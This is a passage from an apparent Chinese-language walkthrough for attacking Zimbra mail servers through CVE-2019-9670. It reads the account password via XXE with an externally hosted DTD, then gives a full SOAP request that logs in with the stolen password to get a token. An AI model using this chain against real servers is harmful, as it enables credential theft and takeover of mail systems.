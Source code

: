```

</Request>

</Autodiscover>` 
```

![image](img/1d9a49f8e73cb88eb609e98bdfbfade0.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

```
POST /service/soap HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 467  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<soap:Envelope xmlns:soap=“[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)”>

<soap:Header>

<context xmlns=“urn:zimbra”>

<userAgent name=“ZimbraWebClient” version=“5.0.15_GA_2851”/>

</context>

</soap:Header>

<soap:Body>

<AuthRequest xmlns=“urn:zimbraAccount”>

<account by=“adminName”>zimbra</account>

<password>上面得到的密码</password>

</AuthRequest>

</soap:Body>
```
